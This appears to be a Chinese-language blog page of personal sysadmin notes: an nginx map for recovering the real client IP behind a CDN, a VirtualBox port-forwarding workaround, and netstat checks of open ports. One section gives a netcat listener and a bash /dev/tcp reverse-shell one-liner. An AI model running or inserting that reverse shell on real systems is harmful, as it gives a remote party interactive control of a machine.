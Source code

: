 ```bash
```

## shell 反弹 
&gt; https://blog.csdn.net/weixin_41082546/article/details/104123131  


```bash 
# 被控端执行  
nc -lvp 65535
# 控制端执行 
bash -i &gt;&amp; /dev/tcp/&lt;被控端ip&gt;/65535 0&gt;&amp;1
```

## nginx 获取cdn真实用户ip 
```conf
# client_real_ip 即为用户真实IP,可直接用于替换 remote_addr 
    map $http_x_forwarded_for $client_real_ip {
    &#34;&#34; $remote_addr;
    # fix: 兼容ipv6
    ~^(?P&lt;firstAddr&gt;[0-9a-fA-F:.]&#43;),?.*$ $firstAddr;
    }
```

## virtualbox - 从主机端口80到VirtualBox端口80的端口转发不起作用 
此次问题实际出现是在`windows`上, 理论上说`linux`下若使用`nat`功能可能也会出现该问题(至于为什么用`nat`,`virtualbox`似乎并不支持桥接网卡,因此要为虚拟机分配物理`ip`似乎就只能在物理机绑定多个`ip`,然后`nat`转发到虚拟机中), `virtualbox`在转发`80`端口时似乎会与物理机的`80`冲突,从而导致转发无效,这个可能是因为我物理机也启用了`IIS`的原因.好吧,以上都是些废话,我也不知道在说些什么,下面看解决方案.
- 解决方案
 1. 我是用的 `windows`的端口转发解决的, `virtualbox`在`nat`的时候转发一个其他端口(比如`8080`)到内部的`80`, 然后在`windows` 在进行一次转发,将绑定的`ip`的`80`端口转发到`8080`上,这样也可以解决,骚操作看 [`windows命令收集`-`端口转发`](/2022/命令收集/#3-windows-端口转发)
 2. 还有个说的是用管理员身份运行`virtualbox`,也可以解决,不过我没有验证过 

 &gt; [https://www.coder.work/article/6503907](https://www.coder.work/article/6503907)


## 服务器默认端口优化   
1. 检查所有非22开启的端口：`netstat -lntp`  
    ```bash
    $&gt; netstat -lntp
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      1317/master         
    tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      1/systemd           
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      1569/sshd           
    tcp6       0      0 ::1:25                  :::*                    LISTEN      1317/master         
    tcp6       0      0 :::111                  :::*                    LISTEN      1/systemd           
    tcp6       0      0 :::22                   :::*                    LISTEN      1569/sshd 
    ```  

2. 查询`/etc/services`下端口对应的服务：`grep -E &#34;25|111/&#34; /etc/services `   
    ```bash 
    $&gt; grep -E &#34;\ 25/|\ 111/&#34; /etc/services 
    smtp            25/tcp          mail
    smtp            25/udp          mail
    sunrpc          111/tcp         portmapper rpcbind      # RPC 4.0 portmapper TCP
    sunrpc          111/udp         portmapper rpcbind      # RPC 4.0 portmapper UD
    ```
